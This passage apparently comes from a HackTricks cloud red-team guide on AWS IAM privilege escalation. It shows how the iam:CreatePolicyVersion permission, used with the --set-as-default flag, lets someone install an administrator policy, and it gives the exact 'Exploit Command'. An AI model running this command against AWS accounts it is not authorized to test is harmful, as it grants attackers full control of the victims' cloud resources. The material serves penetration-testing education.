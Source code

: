 # AWS - IAM Privesc

<details><summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## IAM

For more info about IAM check:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### **`iam:CreatePolicyVersion`**

Grants the ability to create a new IAM policy version, bypassing the need for `iam:SetDefaultPolicyVersion` permission by using the `--set-as-default` flag. This enables defining custom permissions.

**Exploit Command:**
```bash
aws iam create-policy-version --policy-arn <target_policy_arn> \
--policy-document file:///path/to/administrator/policy.json --set-as-default
```